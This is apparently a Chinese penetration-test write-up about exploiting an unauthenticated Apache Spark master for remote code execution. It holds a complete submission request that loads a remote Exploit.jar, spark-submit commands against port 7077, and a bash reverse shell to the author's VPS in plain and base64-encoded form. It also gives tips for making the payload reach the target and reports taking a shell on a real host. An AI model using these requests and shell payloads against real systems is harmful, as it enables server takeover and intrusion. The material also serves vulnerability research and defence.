

### 坑点总结
1、搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名  
2、阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，原因未知  
3、当payload位于github上时，需考虑目标可能获取不到  
4、spark-submit下载后，执行时会报错，经排查原因是缺少依赖，改用下载更全的安装包spark-2.4.3-bin-hadoop2.7.tgz  

1、Exploit.jar链接不能是github，会获取不到  
2、反弹shell需要base64编码  
3、base64编码后需要修改Exploit.jar  

### 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，尝试打点，故有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，直接打失败  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)能够成功访问，环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败，思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求  
成功获得响应，响应中包含driverId的值，然后用driverId的值替换下面的值，并访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

本地测试针对7077端口的漏洞利用  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell，思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，借助如下网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell，继续排查，查看Exploit.jar的源代码发现，原作者是将
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1
经过如下网站编码
http://www.jackson-t.ca/runtime-exec-payloads.html
```
执行后成功反弹shell  
  

拿到目标测试后，成功拿到shell

参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
